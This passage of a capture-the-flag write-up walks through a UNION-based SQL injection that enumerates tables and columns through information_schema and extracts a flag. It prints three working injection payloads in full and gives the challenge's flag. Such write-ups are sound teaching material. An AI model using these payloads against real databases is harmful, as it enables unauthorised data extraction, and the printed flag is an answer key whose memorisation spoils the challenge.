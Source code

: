 Now, we are going to extract the names of the tables that are created in the same actual database using this request:

```!32302 "ok" or 1 UNION ALL SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() or ```

We will see on the second column of the table this result: flag,users

So, there is 2 tables: flag and users.

We are more intrested by `flag` table because of its name.

But to extract its data, we have to know which fields we are going to extract:

```
!32302 "ok" or 1 UNION ALL SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='flag' or 
```

We will get as a result: `whatsthis` which is the name of the table's column that we have to extract.

Now, the final move to extract the table's data:

```
!32302 "ok" or 1 UNION ALL SELECT 1,2,group_concat(whatsthis) from flag where 1 or
```

And we will get the flag as a single result.

So, the flag is `X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}`

I solved this task [after the end of the CTF by 13 seconds (see the screenshot)](https://twitter.com/_TheEmperors_/status/1208100853355360258) and I was not able to validate it but I liked how I struggled to find a way how to solve it
___










# Scoreboard

This is my final task on the CTF on the CTF:

<p align="center">
<img src="scoreboard/ALL1.jpg"/>
</p>

